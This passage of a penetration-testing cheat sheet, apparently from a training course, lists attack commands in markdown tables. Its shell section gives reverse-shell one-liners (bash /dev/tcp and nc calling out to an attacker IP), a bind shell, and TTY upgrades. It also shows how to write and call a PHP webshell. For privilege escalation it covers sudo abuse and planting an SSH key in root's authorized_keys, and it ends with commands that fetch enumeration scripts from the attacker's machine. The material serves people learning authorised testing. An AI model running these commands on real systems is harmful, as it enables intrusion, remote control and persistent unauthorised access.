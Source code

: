 | `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                                 | Send a reverse shell from the remote server                    |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`    | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`         | Start a bind shell on the remote server                        |
| `nc 10.10.10.1 1234`                                                                  | Connect to a bind shell started on the remote server           |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                      | Upgrade shell TTY (1)                                          |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice                           | Upgrade shell TTY (2)                                          |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                     | Create a webshell php file                                     |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                         | Execute a command on an uploaded webshell                      |
| **Privilege Escalation**                                                              |                                                                |
| `./linpeas.sh`                                                                        | Run `linpeas` script to enumerate remote server                |
| `sudo -l`                                                                             | List available `sudo` privileges                               |
| `sudo -u user /bin/echo Hello World!`                                                 | Run a command with `sudo`                                      |
| `sudo su -`                                                                           | Switch to root user (if we have access to `sudo su`)           |
| `sudo su user -`                                                                      | Switch to a user (if we have access to `sudo su`)              |
| `ssh-keygen -f key`                                                                   | Create a new SSH key                                           |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`          | Add the generated public key to the user                       |
| `ssh root@10.10.10.10 -i key`                                                         | SSH to the server with the generated private key               |

### Transferring Files

| **Command**                                            | **Description**                                                       |
| ------------------------------------------------------ | --------------------------------------------------------------------- |
| `python3 -m http.server 8000`                              | Start a local webserver                                               |
| `wget http://10.10.14.1:8000/linpeas.sh`                    | Download a file on the remote server from our local machine           |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`        | Download a file on the remote server from our local machine           |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`             | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0`                                      | Convert a file to `base64`                                            |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`            | Convert a file from `base64` back to its orig                         |
| `md5sum shell`                                           | Check the file's `md5sum` to ensure it converted correctly            |